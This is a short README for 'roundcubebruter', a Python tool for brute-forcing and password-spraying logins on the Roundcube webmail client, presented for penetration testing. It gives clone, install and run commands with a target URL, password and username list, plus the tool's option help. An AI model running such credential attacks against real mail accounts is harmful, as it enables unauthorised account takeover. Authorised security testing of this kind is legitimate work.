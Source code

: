 # roundcubebruter
Bruteforce script for Roundcube webmail client. Can be applied during the pentest as part of webmail password spraying.


# Installation & Usage
```
git clone https://github.com/elkokc/roundcubebruter.git
cd roundcubebruter
pip install requests
python3 bruter.py -u http://192.168.179.145  -p P@ssw0rd --usernames usernames.txt -t 20
```


# Options
```
usage: bruter.py [-h] [--url URL] [--threads THREADS] [--usernames USERNAMES]
                 [--password PASSWORD]

Command line mode

optional arguments:
  -h, --help            show this help message and exit
  --url URL, -u URL     roundcube application URL
  --threads THREADS, -t THREADS
                        Number of Threads".
  --usernames USERNAMES
                        username file
  --password PASSWORD, -p PASSWORD
                        password to brute
```

